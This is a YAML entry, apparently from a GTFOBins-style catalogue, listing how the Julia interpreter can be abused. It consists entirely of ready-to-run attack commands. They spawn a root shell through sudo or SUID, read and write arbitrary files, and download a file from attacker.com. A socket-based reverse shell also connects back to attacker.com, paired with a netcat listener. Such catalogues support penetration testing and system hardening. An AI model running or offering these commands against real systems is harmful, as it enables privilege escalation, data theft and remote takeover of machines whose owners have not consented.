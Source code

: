 ```yaml
---
functions:
  shell:
    - code: |
        julia -e 'run(`/bin/sh`)'
  file-read:
    - code: |
        export LFILE=file_to_read
        julia -e 'print(open(f->read(f, String), ENV["LFILE"]))'
  file-write:
    - code: |
        export LFILE=file_to_write
        julia -e 'open(f->write(f, "DATA"), ENV["LFILE"], "w")'
  file-download:
    - code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        julia -e 'download(ENV["URL"], ENV["LFILE"])'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        julia -e 'using Sockets; sock=connect(ENV["RHOST"], parse(Int64,ENV["RPORT"])); while true; cmd = readline(sock); if !isempty(cmd); cmd = split(cmd); ioo = IOBuffer(); ioe = IOBuffer(); run(pipeline(`$cmd`, stdout=ioo, stderr=ioe)); write(sock, String(take!(ioo)) * String(take!(ioe))); end; end;'
  suid:
    - code: |
        ./julia -e 'run(`/bin/sh -p`)'
  sudo:
    - code: |
        sudo julia -e 'run(`/bin/sh`)'
---
```

